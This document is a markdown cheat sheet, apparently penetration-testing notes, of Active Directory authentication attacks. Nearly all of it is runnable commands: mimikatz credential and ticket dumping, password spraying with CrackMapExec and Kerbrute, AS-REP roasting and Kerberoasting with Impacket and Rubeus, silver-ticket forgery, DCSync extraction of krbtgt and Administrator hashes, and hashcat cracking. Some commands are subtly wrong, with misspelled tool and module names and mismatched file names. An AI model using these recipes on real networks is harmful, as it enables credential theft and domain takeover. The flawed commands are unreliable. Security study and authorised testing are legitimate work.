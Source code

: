 # AD authentication attacks

## Cached creds

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

With the `SeDebugPrivilege` privilege:
```
PS > .\mimikatz.exe
m $ privelege::debug
m $ sekurlsa::logonpasswords
PS2 > dir \\some_other_host\smb\some_share # in another terminal
m $ sekurlsa::tickets
```

## Authentication attacks

### Passwords

#### Lockout

Lockout threshold for password attacks:
```
net accounts
```

#### LDAP password attack using AD authentication - Principle

LDAP query with user and password authentication:
```
# Building the query
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName

# Authentication attack
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### LDAP spray password attack - "Spray-passwords" script 

Spray-passwords on GitHub: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
kali $ crapmapexec smb $targetIpRange.1-254 -u user -p 'password' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: 
- https://github.com/ropnop/kerbrute
- https://github.com/ropnop/kerbrute/releases

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```

### AS-REQ Roasting

Takes __Do not require Kerberos preauthentication__ to be enabled (disabled by default).

#### From Linux with Impacket-GetNPUsers

Impacket-GetNPUsers on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp -request -outputfile hashes_as-rep_to_roast.txt organisation.com/any_user
$ hashcat --help | grep -i 'kerberos' # look for "AS-REP" in this case
$ hashcat -m 18200 hashes_as-rep_to_roast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

```
c:\path\to\rubeus.exe asreproast /nowrap
```
and `hashcat` back again:
```
hashcat -m 18200 hashes_as-rep_to_roast_from_windows.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

Rubeus on GitHub: https://github.com/GhostPack/Rubeus
```
PS > .\Rubeus.exe asreproast /nowrap
```
Copy the hash and crack it on Kali with `hashcat`:
```
sudo hashcat -m 18200 hashes_retrieved_with_Rubeus_on_Windows /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Users to AS-REQ roast

To get only the users with option `Do not require Kerberos preauthentication` enabled on Linux:
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp # No options
```
and on Windows:
```
Import-Module c:\path\to\powerview.ps1
Get-DomainUser -PreauthNotRequired
```

### Kerberoasting - TGS-REP on SPN

#### With Impacket-GetUserSPNs

Impacket-GetUserSPNs on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
```
$ impacket-GetUserSPNs -request -dc-ip $TargetDomainControlerIp organisation.com/someuser
$ hashcat --help | grep -i kerberos
$ hashcat -m 13100 spn_hash_to_hack.txt /usr/share/wordlist/rockyou.txt -r myrulefile.rule --force
```

#### With Rubeus

```
PS c:\path\to\rubeus> .\Rubeus.exe kerberoast /outfile:spn_hash_to_hack.txt
```
and crack it with `hashcat`. With `GenericWrite` or `GenericAll` permissions on another AD user: 
- https://adsecurity.org/?p=3658 (to avoid)
- https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

### Silver ticket

Takes Privileged Account Certificate (PAC) not to be enabled (usual): https://adsecurity.org/?p=2011
```
PS > iwr -UseDefaultCredentials http://internalwebsite # access denied
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # get the webserver's service NTLM hash
PS > whoami /user # get the domain SID: S-1-5-21-xtake-ytake-ztake-donottaketheuserRID
mimikatz # kerberos::golden /sid:domainsid /domain:organisation.com /ptt /target:internalwebsite.organisation.com /service:http /rc4:ntlmhash /user:anyuser
mimikatz # exit
PS > klist
PS > iwr -UseDefaultCredentials http://internalwebsite # access granted
```

### Domain Controler Sync

Needs:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

which are provided by:
- Domain Admins
- Enterprise Admins
- Administrators (local admins `+++`)

DCSync attack details: https://adsecurity.org/?p=2398#MimikatzDCSync \
Impacket-Secretsdump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

#### From Linux

```
impacket-secretsdump -just-dc-user someuser organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
hashcat -m 1000 ntlm_hash_from_impacket-secretsdump /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user Administrator organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
impacket-secretsdump -just-dc-user krbtgt organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
```

#### From Windows

From a local admin account (for example):
```
PS > c:\path\to\mimikatz.exe
mimikatz # lsadump::dcsync /user:mydomainname\target_username
$ hashcat -m 1000 ntlm_hash_from_mimikatz /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

mimikatz # lsadump::dcsync /user:mydomainname\Administrator
mimikatz # lsadump::dcsync /user:mydomainname\krbtgt
```



